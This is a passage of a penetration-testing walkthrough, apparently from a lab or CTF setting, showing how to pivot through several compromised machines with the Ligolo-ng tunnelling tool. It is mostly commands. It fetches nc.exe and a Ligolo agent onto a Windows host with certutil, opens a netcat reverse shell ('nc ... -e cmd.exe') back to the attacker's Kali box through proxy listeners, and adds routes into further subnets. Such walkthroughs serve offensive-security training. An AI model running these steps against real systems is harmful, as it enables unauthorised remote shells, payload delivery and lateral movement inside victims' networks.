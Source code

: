 ```bash
#8.Execute Reverse Shell from Ligolo-2 to Kali:
###########################################
#=>(Found : Ligolo-3 Machine 192.168.119.129) 
#=> exploit RCE on Ligolo-3
##########################################

# [+] # upload netcat and establish a reverse shell on Ligolo-3
# [-] kali -----> Ligolo-3 # we  connect to kali from Ligolo-3
# [-] kali <-- X -- Ligolo-3 # we can't connect to kali from Ligolo-3

# To resolve this issue we need to set up a listener in Ligolo's proxy: Essentially, this listener will be responsible for forwarding traffic from port 8080 on the compromised machine to port 80 on our local Kali machine.

`listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80 --tcp` # on ligolo-2
#upload Netcat to Ligolo-2 via Jump Host (Ligolo-1):
#Use Ligolo-1’s IP and port 8080 to transfer files.  
`python -m http.server -port 80` # on kali
`certutil.exe -urlcache -f "http://192.168.119.128:8080/nc.exe" nc.exe` #on Ligolo-3
#Create a New Listener for Reverse Shell:  
#we will use the same technique from earlier we will create a new listener and execute Netcat along with the IP of the Ligolo-1 Machine(Jump Host) and the port we specify with the listener
`listener_add --addr 0.0.0.0:9090 --to 127.0.0.1:999 --tcp`  

#Execute Reverse Shell from Ligolo-2 to Kali:
`nc -lnvp 999` # on kali 
`nc 192.168.119.128 9090 -e cmd.exe`  #on Ligolo-3(Use Ligolo-2 IP and configured port)
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
#Following the familiar pattern, we will create a new Ligolo interface and assume command access on the Ligolo-3 Machine. Using the same commands, we will establish a tunnel with Ligolo, execute the "start" command with the newly created Ligolo interface, and add a route to the new subnet (192.168.21.0). This systematic approach will allow us to extend our network access to the final machine in the 192.168.21.0 subnet.

#With our successful pivot into three subnets, we are now left with just one more subnet to access. This final subnet is associated with the last machine, which has an IP address of 192.168.21.0/24. Our objective is to extend our reach to this machine as well.

################################################
3. `Ligolo-3`: `192.168.119.129` & `192.168.79.128` 
################################################

#1.Upload Ligolo Agent on The Compromised Machine
`python -m http.server -port 80 ` # on kali 
`certutil.exe -urlcache -f "http://192.168.119.128:8080/agent.exe" agent.exe` #on Ligolo-3, upload agent to Ligolo-3 via Jump Host (Ligolo-2)

#2.Setup Tun Interface on Kali:
`sudo ip tuntap add user "your-Kali-User" mode tun ligolo-3`  
`sudo ip link set ligolo-3 up`  

#4.execute Ligolo Agent to Compromised Machine:  
# To run Ligolo's Agent on the Ligolo-3 Machine, we'll adopt a strategy similar to the reverse shell. we must also create a new listener on Ligolo-2. This listener on Ligolo-2 will be essential for receiving the connection on our Ligolo proxy and ensuring the connection is established successfully.
`listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp` 
`.\agent.exe -ignore-cert -connect 192.168.8.128:11601` # on ligolo-3

#5.Interact with Sessions via Ligolo Proxy**:  
`session` #3 Ligolo-3
`ifconfig` #192.168.79.128
`start --tun ligolo-3` #establishing a connection between kai & Ligolo-3

```